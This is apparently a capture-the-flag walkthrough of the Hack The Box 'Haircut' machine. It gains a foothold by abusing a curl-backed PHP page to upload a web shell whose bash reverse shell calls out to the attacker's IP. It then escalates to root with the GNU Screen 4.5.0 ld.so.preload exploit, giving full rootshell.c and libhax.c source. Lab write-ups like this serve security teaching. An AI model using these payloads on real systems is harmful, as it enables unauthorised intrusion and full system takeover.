



---
search:
  exclude: true
---
# Haircut Writeup

## Introduction :

Haircut is a medium Linux box released back in May 2017.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.20/23 ] [~]
      → nmap -F 10.10.10.24
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-24 12:41 GMT
      Nmap scan report for 10.10.10.24
      Host is up (0.10s latency).
      Not shown: 98 closed ports
      PORT   STATE SERVICE
      22/tcp open  ssh
      80/tcp open  http
    
      Nmap done: 1 IP address (1 host up) scanned in 1.62 seconds
    
      λ nihilist [ 10.10.14.20/23 ] [~]
      → nmap -sCV 10.10.10.24 -p22,80
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-24 12:48 GMT
      Nmap scan report for 10.10.10.24
      Host is up (0.10s latency).
    
      PORT   STATE SERVICE VERSION
      22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey:
      |   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
      |   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
      |_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
      80/tcp open  http    nginx 1.10.0 (Ubuntu)
      |_http-server-header: nginx/1.10.0 (Ubuntu)
      |_http-title:  HTB Hairdresser
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 11.06 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up nginx 1.10.0 running on port 80, browsing there we find a simple webpage with one image on it, so we download it to see if we can find anything interesting on it, however before that, let's run a dirsearch scan to see if we can find any interesting directories :
    
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Haircut]
      → dirsearch -u http://10.10.10.24/ -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e html,txt,php,js,xml
    

While that runs, let's see if we can find anything interesting on that image on the webpage : 
    
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Haircut]
      → wget http://10.10.10.24/bounce.jpg && exiftool bounce.jpg
      --2020-02-24 13:02:32--  http://10.10.10.24/bounce.jpg
      Connecting to 10.10.10.24:80... connected.
      HTTP request sent, awaiting response... 200 OK
      Length: 116637 (114K) [image/jpeg]
      Saving to: ‘bounce.jpg’
    
      bounce.jpg                    100%[===============================================>] 113.90K   367KB/s    in 0.3s
    
      2020-02-24 13:02:33 (367 KB/s) - ‘bounce.jpg’ saved [116637/116637]
    
      ExifTool Version Number         : 11.86
      File Name                       : bounce.jpg
      Directory                       : .
      File Size                       : 114 kB
      File Modification Date/Time     : 2017:05:15 09:58:51+01:00
      File Access Date/Time           : 2020:02:24 13:02:33+00:00
      File Inode Change Date/Time     : 2020:02:24 13:02:33+00:00
      File Permissions                : rw-r--r--
      File Type                       : JPEG
      File Type Extension             : jpg
      MIME Type                       : image/jpeg
      JFIF Version                    : 1.01
      Resolution Unit                 : None
      X Resolution                    : 1
      Y Resolution                    : 1
      Comment                         : CREATOR: gd-jpeg v1.0 (using IJG JPEG v62), quality = 90.
      Image Width                     : 600
      Image Height                    : 804
      Encoding Process                : Baseline DCT, Huffman coding
      Bits Per Sample                 : 8
      Color Components                : 3
      Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
      Image Size                      : 600x804
      Megapixels                      : 0.482
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Haircut]
      → file bounce.jpg
      bounce.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, comment: "CREATOR: gd-jpeg v1.0 (using IJG JPEG v62), quality = 90", baseline, precision 8, 600x804, components 3
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Haircut]
      → steghide extract -sf bounce.jpg
      Enter passphrase:
      steghide: could not extract any data with that passphrase!
    

Looks like we're out of luck for that image for now. looking back at our dirsearch results, we find the test.html page which again just has a single image on it and nothing else. but we also have an exposed.php webpage. and looking at it's error messages, we see that it's using curl to find the webpage we request.

Let's see if we can get it to connect to us : 

    
    
    Requesting Site...
    % Total % Received % Xferd Average Speed Time Time Time Current Dload Upload Total Spent Left Speed 0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0 0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0 100 56 100 56 0 0 268 0 --:--:-- --:--:-- --:--:-- 267
    
    nihilist's simpleHTTPServer running on port 1234
     

And we can ! now that we know that it is running curl, and that it can reach to us, let's see if we can take this a little further by using what our dirsearch command found earlier : the /uploads/ directory, so we'll try uploading a file there :
    
    
       λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Haircut]
       → cp /home/nihilist/_HTB/Cronos/nihilist.php .
    
       λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Haircut]
       → nano nihilist.php
     
    
    
    <****?php
    exec("/bin/bash -c 'bash -i > & /dev/tcp/10.10.14.20/1234 0>&1'");
    ?****>
    
    
       λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Haircut]
    → ls
    bounce.jpg  nihilist.html  nihilist.php
    
    λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Haircut]
    → python -m SimpleHTTPServer 9000
    Serving HTTP on 0.0.0.0 port 9000 ...
     
    
    
    -o /var/www/html/uploads/nihilist.php http://10.10.14.20:9000/nihilist.php
     

once uploaded, we just need to browse to our url , while having our netcat listener on port 1234. 
    
    
       λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Haircut]
    → nc -lvnp 1234
    listening on [any] 1234 ...
     
    
    
       λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Haircut]
       → curl http://10.10.10.24/uploads/nihilist.php
     
    
    
       connect to [10.10.14.20] from (UNKNOWN) [10.10.10.24] 34814
       bash: cannot set terminal process group (1202): Inappropriate ioctl for device
       bash: no job control in this shell
    
       www-data@haircut:~/html/uploads$ cat /home/maria/Desktop/user.txt
       cat /home/maria/Desktop/user.txt
       0bXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
     

Getting our reverse shell, we have been able to print out the user flag in /home/maria/desktop/. 

## **Part 3 : Getting Root Access**

Now from there, we have to somehow privesc to the root user so let's first check which files have the 4000 permissions, piping the errors to /dev/null.
    
    
      www-data@haircut:/bin$ find / -perm -4000 2>/dev/null | xargs ls -la
      find / -perm -4000 2>/dev/null | xargs ls -la
      -rwsr-xr-x 1 root   root         30800 Jul 12  2016 /bin/fusermount
      -rwsr-xr-x 1 root   root         40152 Dec 16  2016 /bin/mount
      -rwsr-xr-x 1 root   root        142032 Jan 28  2017 /bin/ntfs-3g
      -rwsr-xr-x 1 root   root         44168 May  7  2014 /bin/ping
      -rwsr-xr-x 1 root   root         44680 May  7  2014 /bin/ping6
      -rwsr-xr-x 1 root   root         40128 May  4  2017 /bin/su
      -rwsr-xr-x 1 root   root         27608 Dec 16  2016 /bin/umount
      -rwsr-sr-x 1 daemon daemon       51464 Jan 14  2016 /usr/bin/at
      -rwsr-xr-x 1 root   root         49584 May  4  2017 /usr/bin/chfn
      -rwsr-xr-x 1 root   root         40432 May  4  2017 /usr/bin/chsh
      -rwsr-xr-x 1 root   root         75304 May  4  2017 /usr/bin/gpasswd
      -rwsr-xr-x 1 root   root         32944 May  4  2017 /usr/bin/newgidmap
      -rwsr-xr-x 1 root   root         39904 May  4  2017 /usr/bin/newgrp
      -rwsr-xr-x 1 root   root         32944 May  4  2017 /usr/bin/newuidmap
      -rwsr-xr-x 1 root   root         54256 May  4  2017 /usr/bin/passwd
      -rwsr-xr-x 1 root   root         23376 Jan 18  2016 /usr/bin/pkexec
      -rwsr-xr-x 1 root   root       1588648 May 19  2017 /usr/bin/screen-4.5.0
      -rwsr-xr-x 1 root   root        136808 Jan 20  2017 /usr/bin/sudo
      -rwsr-xr-- 1 root   messagebus   42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
      -rwsr-xr-x 1 root   root         10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
      -rwsr-xr-x 1 root   root        428240 Mar 16  2017 /usr/lib/openssh/ssh-keysign
      -rwsr-xr-x 1 root   root         14864 Jan 18  2016 /usr/lib/policykit-1/polkit-agent-helper-1
      -rwsr-xr-x 1 root   root        208680 Apr 29  2017 /usr/lib/snapd/snap-confine
      -rwsr-xr-x 1 root   root         38984 Mar  7  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    

And here, we see something interesting , we have /usr/bin/screen-4.5.0 which basically is an outdated version of GNU Screen which is vulnerable to a local bashscript exploit, as explained here :
    
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Haircut]
      → searchsploit screen 4.5
      ------------------------------------------------------- ------------------------------
       Exploit Title                                         |  Path
                                                             | (/usr/share/exploitdb/)
      ------------------------------------------------------- ------------------------------
      GNU Screen 4.5.0 - Local Privilege Escalation          | exploits/linux/local/41154.sh
      GNU Screen 4.5.0 - Local Privilege Escalation (PoC)    | exploits/linux/local/41152.txt
      ------------------------------------------------------- ------------------------------
      Shellcodes: No Result
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Haircut]
      → locate 41152.txt
      /usr/share/exploitdb/exploits/linux/local/41152.txt
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Haircut]
      → cat /usr/share/exploitdb/exploits/linux/local/41152.txt
      Commit f86a374 ("screen.c: adding permissions check for the logfile name",
      2015-11-04)
    
      The check opens the logfile with full root privileges. This allows us to
      truncate any file or create a root-owned file with any contents in any
      directory and can be easily exploited to full root access in several ways.
    
    

So that's the explanation of the exploit, let's replicate each steps (that i purposefully cut out to demonstrate here) : 
    
    
      www-data@haircut:/bin$ screen --version
      screen --version
      Screen version 4.05.00 (GNU) 10-Dec-16
    
      www-data@haircut:/bin$ cd /etc
      cd /etc
    
      www-data@haircut:/etc$ id
      id
      uid=33(www-data) gid=33(www-data) groups=33(www-data)
    
      www-data@haircut:/etc$ screen -D -m -L bla.bla echo fail
      screen -D -m -L bla.bla echo fail
    
      www-data@haircut:/etc$ ls -l bla.bla
      ls -l bla.bla
      -rw-r--r-- 1 root www-data 0 Feb 24 14:54 bla.bla
    

and we've been able to create a file owned by root. Now let's look at the other exploit our searchsploit command found earlier : 
    
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Haircut]
      → locate 41154.sh
      /usr/share/exploitdb/exploits/linux/local/41154.sh
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Haircut]
      → cp /usr/share/exploitdb/exploits/linux/local/41154.sh .
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Haircut]
      → ls
      41154.sh  bounce.jpg  nihilist.html  nihilist.php
    

now looking at the bashscript we just copied, we need to create 2 files : rootshell.c and libhax.c 
    
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Haircut]
    → nano rootshell.c
    
    
    
      #include <****stdio.h>
    int main(void){
            setuid(0);
            setgid(0);
            system("/bin/sh");
    }
    
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Haircut]
    → nano libhax.c
    
    
    
      #include <****stdio.h>
      #include <****sys/types.h>
      #include <****unistd.h>
      __attribute__ ((__constructor__))
      void dropshell(void){
              chown("/tmp/rootshell",0,0);
              chmod("/tmp/rootshell",04755);
              unlink("/etc/ld.so.preload");
              printf("[+] done!\n");
      }

now once we have both of them, we compile rootshell.c 
    
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Haircut]
    → ls
    41154.sh  bounce.jpg  nihilist.html  nihilist.php  libhax.c  rootshell.c
    
    λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Haircut]
    → gcc -o rootshell rootshell.c
    
    λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Haircut]
    → file rootshell
    rootshell: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=12fa79c4be4d1e8082f25adb7e78c33e46df2d80, for GNU/Linux 3.2.0, not stripped
    

so we have our 64bit executable binary, which is appropriate because when we type uname with the -a flag on the box we see that it is a 64bit machine. 
    
    
      www-data@haircut:/tmp$ uname -a
      uname -a
      Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
    
    
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Haircut]
    → gcc -fPIC -shared -ldl -o libhax.so libhax.c
    
    λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Haircut]
    → ls
    41154.sh    nihilist.html  libhax.c   rootshell
    bounce.jpg  nihilist.php   libhax.so  rootshell.c
    
    λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Haircut]
    → python -m SimpleHTTPServer 9006
    Serving HTTP on 0.0.0.0 port 9006 ...
    

And we now we have both our compiled files libhax.so and rootshell. Running simplehttpserver, we download them into /tmp.
    
    
      www-data@haircut:/tmp$ cd /tmp && wget http://10.10.14.20:9006/libhax.so && wget http://10.10.14.20:9006/rootshell
      --2020-02-24 15:22:28--  http://10.10.14.20:9006/libhax.so
      Connecting to 10.10.14.20:9006... connected.
      HTTP request sent, awaiting response... 200 OK
      Length: 16144 (16K) [application/octet-stream]
      Saving to: 'libhax.so'
    
           0K .......... .....                                      100%  152K=0.1s
    
      2020-02-24 15:22:28 (152 KB/s) - 'libhax.so' saved [16144/16144]
    
      --2020-02-24 15:22:28--  http://10.10.14.20:9006/rootshell
      Connecting to 10.10.14.20:9006... connected.
      HTTP request sent, awaiting response... 200 OK
      Length: 16720 (16K) [application/octet-stream]
      Saving to: 'rootshell'
    
           0K .......... ......                                     100%  145K=0.1s
    
      2020-02-24 15:22:28 (145 KB/s) - 'rootshell' saved [16720/16720]
    
      www-data@haircut:/tmp$ chmod +x rootshell && chmod +x libhax.so
      chmod +x rootshell && chmod +x libhax.so
    

Now we should be ready to get run the intended script although at this point we'll just do the rest manually, since we basically cut out more than half of the script already. 
    
    
      #!/bin/sh
      echo "~ gnu/screenroot ~"
      echo "[+] First, we create our shell and library..."
      cd /etc
      umask 000 # because
      screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline n>
      echo "[+] Triggering..."
      screen -ls # screen itself is setuid, so...
      /tmp/rootshell
    
    
    
    
      www-data@haircut:/tmp$ cd /etc
      cd /etc
    
      www-data@haircut:/etc$ umask 000
      umask 000
    
      www-data@haircut:/etc$ screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline n>
    
      www-data@haircut:/etc$ ls -la | grep ld
      ls -la | grep ld
      -rw-r--r--   1 root root     24939 May 19  2017 ld.so.cache
      -rw-r--r--   1 root root        34 Jan 27  2016 ld.so.conf
      drwxr-xr-x   2 root root      4096 May 16  2017 ld.so.conf.d
      drwxr-xr-x   2 root root      4096 May 15  2017 ldap
      www-data@haircut:/etc$ /tmp/rootshell
      /tmp/rootshell
      id
      uid=0(root) gid=0(root) groups=0(root),33(www-data)
      cat /root/root.txt
      4cXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to privesc to the root user and we have been able to print out the root flag.

## **Conclusion**

Here we can see the progress graph :

